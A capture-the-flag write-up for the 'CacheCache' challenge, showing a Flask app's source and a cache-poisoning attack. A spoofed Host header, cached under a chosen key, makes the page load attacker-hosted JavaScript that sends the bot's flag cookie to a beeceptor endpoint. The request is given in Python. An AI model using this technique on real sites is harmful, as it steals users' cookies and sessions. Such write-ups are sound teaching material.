



# CacheCache



## overciew

Source code of the app :

```py
from flask import Flask, request
from flask_caching import Cache
import random
import string
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from os import environ
from time import sleep

app = Flask(__name__)
config = {
    "DEBUG": False,
    "CACHE_TYPE": "SimpleCache",
    "CACHE_DEFAULT_TIMEOUT": 300
}
app.config.from_mapping(config)
cache = Cache(app)

def make_key():
    cachekey = request.args.get("cachekey")
    return cachekey if cachekey else ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(8))

@app.route('/script/main.js', methods=["GET"])
def script():
    return "setTimeout(function(){document.getElementById('quote').innerText = 'Welcome to my personal website !';},1500);"

@app.route('/visit', methods=["GET","POST"])
def visit():
    if request.method == "GET":
        return f'''
            <!DOCTYPE HTML>
                <html>
                    <head>
                        <title>Show me your quote!</title>
                    </head>
                    <body>
                        <form method="POST" action="/visit">
                            <input type="text" placeholder="http://superquote.fr/myquote" name="url" id="url"/>
                            <br/>
                            <button action="submit">Send your quote!</button>
                        </form>
                    </body>
                </html>
        '''
    elif request.method == "POST":
        if(request.form.get("url") and request.form.get("url").startswith("http://") or request.form.get("url").startswith("https://")):
            chrome_options = Options()
            chrome_options.add_argument("--headless")
            chrome_options.add_argument("--incognito")
            chrome_options.add_argument("--no-sandbox")
            chrome_options.add_argument("--disable-gpu")
            chrome_options.add_argument("--disable-jit")
            chrome_options.add_argument("--disable-wasm")
            chrome_options.add_argument("--disable-dev-shm-usage")
            chrome_options.add_argument("--ignore-certificate-errors")
            chrome_options.binary_location = "/usr/bin/chromium-browser"
            service = Service("/usr/bin/chromedriver")
            driver = webdriver.Chrome(service=service, options=chrome_options)
            driver.set_page_load_timeout(3)
            driver.get("http://127.0.0.1:5000")
            driver.add_cookie({
                "name": "flag",
                "value": environ.get("FLAG"),
                "path": "/",
                "httpOnly": False,
                "samesite": "Strict",
                "domain": "127.0.0.1"
            })
            try:
                driver.get(request.form.get("url"))
            except: 
                pass
            sleep(3)
            driver.close()
            return "That's a good quote !"
        else:
            return "'url' parameter not given or is incorrect"
    else:
        return 'Method not allowed.'

@app.route('/')
@cache.cached(timeout=60, make_cache_key=make_key)
def index():
    return f'''
    <!DOCTYPE HTML>
    <head>
        <script src="http://{request.headers.get('Host')}/script/main.js"></script>
    </head>
    <body>
        The today random quote is : <p id="quote"></p>
    </body>
    '''

app.run(host='0.0.0.0', port=5000)
```


By looking at the source code, we can see that the creator implemented a cache system on `/` route. Cache is used in flask to render the page (and the templates inside) only once per key each 300s. If we look at the cache andling function, we can see that it uses a get parameter called `cachekey`. This means that the answer returned by the server will be identical for all users using the same cachekey.


Looking at the other functions, we can see that there is also a route called `/visit` that calls a bot. this bot sets the flag as a cookie with the atribut sameSite for `127.0.0.1` enabled and gets a page that we want.


We can exploit this script by requesting a cachekey using the header host to point to a controlled server. Thgen, we need to create a file in http://our-server/script/main.js. This file need to contain a script that steals the cookies and send them to the same server.

## exploit

To exploit this, I used a beeceptor instance as my web server. I simply created a rule that matches `/script/main.js`. This script simply requests this same enpoint with the cookie as a header.




I then used a python script to send a crafted request to the targeted web server.

```py
import requests
requests.get("http://13.39.75.59:11319?cachekey=hehaha", headers={"Host":"dfhbsjdfh.free.beeceptor.com"})
```

With this setup I only had to redirect the bot to the website main page, with the same cachekey as the one I previously used.

```
http://127.0.0.1:5000?cachekey=hehaha
```

Looking at the endpoint logs, we can see the flag.




Thanks for the chall.